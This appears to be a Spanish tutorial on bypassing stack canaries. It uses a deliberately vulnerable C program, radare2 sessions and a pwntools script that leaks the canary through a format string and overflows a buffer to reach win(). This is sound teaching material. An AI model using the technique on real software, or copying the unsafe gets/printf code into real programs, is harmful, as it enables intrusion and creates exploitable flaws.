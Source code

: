 # CANARY BYPASS

## CANARY

Canary es una protección contra ataques del tipo "Smash the Stack" que se basa en incluir un número aleatorio justo después de la dirección de retorno. Este número se compara justo antes de ejecutar la instrucción ret. Si coinciden es que no ha habido un buffer overflow.&#x20;

Si el atacante intenta realizar un Buffer Overflow, el programa lanzará un error \*\*\*_**stack smashing detected \*\*\*.**_

{% hint style="info" %}
En Linux, los canarios terminan siempre en **\x00**. Esto es para cerrar cualquier string que nos hubieramos dejado abierta en la ejecución del programa pero también los hace más facilmente identificables.
{% endhint %}

## BYPASSING CANARY

Existen dos formas de bypassear el canario:

### Filtración del canario

Este proceso es muy amplio y dependerá del binario que estemos explotando pero la meta es leer el valor del canario.

La opción más sencilla es utilizando una vulnerabilidad de format string, ya que como el canario es una variable local,  se encuentra almacenado en el stack y, por tanto, se puede acceder a él.

#### Código Fuente:

```c
#include <stdio.h>

void vuln() {
    char buffer[64];

    puts("Leak me");
    gets(buffer);

    printf(buffer);
    puts("");

    puts("Overflow me");
    gets(buffer);
}

int main() {
    vuln();
}

void win() {
    puts("You won!");
}c
```

El código fuente es muy sencillo: da una vulnerabilidad de format string y después da acceso a un buffer overflow.&#x20;

La vulnerabilidad de format string se puede utilizar para obtener el valor del canario, de tal manera que podemos sobreescribir el valor del canario por ese mismo valor después de haberlo sobreescrito con el buffer overflow.

Todo esto con el objetivo de ejecutar win().

#### Compilado en 32 bits

Primero comprobamos si efectivamente tiene canario:

```bash
$ pwn checksec vuln-32 
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Ahora tenemos que averiguar el offset del canario. Podemos utilizar para ello **radare2**.

```nasm
$ r2 -d -A vuln-32

[0xf7f2e0b0]> db 0x080491d7
[0xf7f2e0b0]> dc
Leak me
%p
hit breakpoint at: 80491d7
[0x080491d7]> pxw @ esp
0xffd7cd60  0xffd7cd7c 0xffd7cdec 0x00000002 0x0804919e  |...............
0xffd7cd70  0x08048034 0x00000000 0xf7f57000 0x00007025  4........p..%p..
0xffd7cd80  0x00000000 0x00000000 0x08048034 0xf7f02a28  ........4...(*..
0xffd7cd90  0xf7f01000 0xf7f3e080 0x00000000 0xf7d53ade  .............:..
0xffd7cda0  0xf7f013fc 0xffffffff 0x00000000 0x080492cb  ................
0xffd7cdb0  0x00000001 0xffd7ce84 0xffd7ce8c 0xadc70e00  ................
```

El último valor es el canario. Lo podemos saber por que está más o menos 64 bytes después del inicio del buffer (que tiene 64 bytes) y el canario debe estar cerca del final de buffer. Además, empieza con 00 como y parece bastante aleatorio, no como las direcciones que empiezan siempre por **ff** o por **7f.**

Vamos a comprobarlo utilizando el format string y vemos que es el offset 23.as

```nasm
./vuln-32

Leak me
%23$p %24$p %25$p
0xa4a50300 0xf7fae080 (nil)
```

{% hint style="info" %}
El canario está randomizado y por tanto, será diferente para cada instancia que iniciemos.
{% endhint %}

Ahora podemos automatizar esta acción con pwntools.

```python
from pwn import *

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')
```

```bash
$ python3 exploit.py 
[+] Starting local process './vuln-32': pid 14019
[*] b'Leak me\n'
[+] Canary: 0xcc987300
```

Ahora solo queda ver cual es la distancia entre el canario y  la dirección de retorno.

```nasm
$ r2 -d -A vuln-32
[0xf7fbb0b0]> db 0x080491d7
[0xf7fbb0b0]> dc
Leak me
%23$p
hit breakpoint at: 80491d7
[0x080491d7]> pxw @ esp
[...]
0xffea8af0  0x00000001 0xffea8bc4 0xffea8bcc 0xe1f91c00
```

Vemos el canario en `0xffea8afc`. Un poco despues, suponemos, el rp está en 0xffea8b0c. Si utilizamos un breakpoint justo después del siguiente gets() podemos ver el offset utilizando una plantilla ciclica:

```nasm
[0x080491d7]> db 0x0804920f
[0x080491d7]> dc
0xe1f91c00
Overflow me
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA
hit breakpoint at: 804920f
[0x0804920f]> pxw @ 0xffea8afc
0xffea8afc  0x41574141 0x41415841 0x5a414159 0x41614141  AAWAAXAAYAAZAAaA
0xffea8b0c  0x41416241 0x64414163 0x41654141 0x41416641  AbAAcAAdAAeAAfAA
```

Ahora podemos utilizar wop0 (una herramienta de radare2) para averiguar el offset de ambos:

```
[0x0804920f]> wopO 0x41574141
64
[0x0804920f]> wopO 0x41416241
80
```

El Return Pointer está 16 bytes por detrás del inicio del canario, o lo que es lo mismo, 12 bytes después del canario. Por tanto:

```python
from pwn import *

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary)  # overwrite canary with original value to not trigger
payload += b'A' * 12    # pad to return pointer
payload += p32(0x08049245)

p.clean()
p.sendline(payload)

print(p.clean().decode('latin-1'))thon
```

### Fuerza Bruta al Canario

Es "posible" en arquitectura de 32 bits pero imposible en 64 bites.

Básicamente consiste en ejecutar el proceso con valores aleatorios para el canario hasta que uno funcione. Esto puede tomar mucho tiempo.
